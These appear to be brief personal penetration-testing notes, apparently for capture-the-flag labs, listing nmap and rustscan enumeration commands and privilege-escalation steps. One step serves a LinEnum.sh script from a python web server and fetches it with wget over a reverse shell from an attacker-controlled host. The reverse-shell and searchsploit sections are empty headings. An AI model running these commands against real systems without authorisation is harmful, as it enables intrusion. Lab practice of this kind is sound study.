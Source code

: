 ## Setting
#export ip 
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
1.Automated scan for vulnerabilities or manual ennumeration.
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
3.Host a python server python3 -m http.server 8080 to transfer the linEum.sh
4.From the reverse shell, wget http://$myIP:8080 . to recieve the linEum.sh File
 

